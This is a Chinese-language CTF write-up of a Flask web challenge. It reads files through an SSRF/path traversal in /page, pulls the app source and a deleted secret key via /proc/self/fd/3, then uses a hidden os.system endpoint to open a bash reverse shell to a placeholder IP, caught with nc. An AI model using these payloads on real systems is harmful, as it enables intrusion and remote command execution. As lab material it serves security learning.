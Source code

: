 ![](<./img/Pasted image 20230104083639.png>)

---
首页长这样

![](<./img/Pasted image 20230104083703.png>)

朴实无华.jpg

![](<./img/Pasted image 20230104083746.png>)

```php
/page?url=../flag
```
然后就拿到`flag`了

看`wp`还有个预期解

获取进程的`cmdline`
```php
/page?url=/proc/self/cmdline
```

```shell
python2 app.py
```

```php
/page?url=app.py
```

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

使用`open`打开了，但是没有`close`，可以使用文件描述符读取

默认创建了三个文件描述符，`stdin`、`stdout`和`stderr`

所以`secret.txt`的`fd`应该是`3`

```php
/page?url=/proc/self/fd/3
```

```
kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=
```

反弹`shell`
```php
no_one_know_the_manager?key=kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=&shell=bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/7777 0>&1"
```
查询参数要进行`url`编码
```shell
nc -lvp 7777
```

![](<./img/Pasted image 20230104094436.png>)

```shell
cat /flag
```

```
flag{5dbf6e32-aa1e-4f39-b328-425144e25c25}
```

#Web #linux #proc #文件描述符 #反弹shell 